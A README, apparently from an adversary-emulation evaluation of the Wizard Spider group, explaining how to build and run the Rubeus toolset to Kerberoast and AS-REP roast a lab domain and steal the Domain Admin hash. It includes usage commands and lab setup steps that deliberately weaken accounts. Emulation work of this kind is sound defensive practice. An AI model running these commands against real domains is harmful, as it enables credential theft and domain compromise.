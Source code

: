 # Rubeus

"Rubeus is a C# toolset for raw Kerberos interaction and abuses." 

The goal for this evaluation is to steal the hash of the Domain Admin as a Domain User.  

### Build Instructions

Open the command prompt (cmd.exe), navigate to directory containing the Rubeus Visual Studio solution file (Rubeus.sln), and run the devenv.exe command:

	cd wizard_spider\Resources\Rubeus
	"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\Common7\IDE\devenv.exe" Rubeus.sln /build Release
	
	# alternate build command
	"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\MSBuild\Current\Bin\msbuild.exe" Rubeus.sln -property:Configuration=Release

The executable will be found in the bin\Release folder.

### Test Instructions
Open PowerShell

	cd wizard_spider\Resources\Rubeus\
	rubeus_test.ps1

### Usage Examples

	# execute AS-Rep Roast
	rubeus.exe asreproast /domain:oz.local
	
	# execute Kerberoast
	# must be executed as a domain user (oz\user) NOT a local user (dorothy\user)
	# may want to consider adding /format:hashcat as an argument (default format is John)
	rubeus.exe kerberoast /domain:oz.local

### Cleanup Instructions 
Open a command prompt or PowerShell

	del rubeus.exe

### Misc
Conditions required to successfully compromise the Domain Admin password via Kerberoasting during the evaluation:
- The Domain Admin must have a crackable password

- The Domain Admin must have a Service Principal Name (SPN) associated with their account 

	```
	# Example command to set the SPN: 
	setspn -s exchange/oz.local oz/kfleming 
	```


Additionally, the CTI indicates the adversary also attempts AS-Rep Roasting. For this to work, Kerberos pre-authentication must be disabled (not done by default). 

  ```
Log into Domain Controller 
Run (Windows-R) dsa.msc 
Select Domain Admin account 
Go to the Account tab 
In account options, check 'Do not require Kerberos preauthentication' 
  ```

### CTI Evidence
https://attack.mitre.org/groups/G0102/  
https://thedfirreport.com/2020/10/08/ryuks-return/  
https://thedfirreport.com/2020/11/05/ryuk-speed-run-2-hours-to-ransom/  

### References
https://github.com/GhostPack/Rubeus  
https://social.technet.microsoft.com/wiki/contents/articles/717.service-principal-names-spn-setspn-syntax.aspx  
https://blog.zsec.uk/path2da-pt2/  
https://docs.microsoft.com/en-us/visualstudio/ide/reference/build-devenv-exe?view=vs-2019  
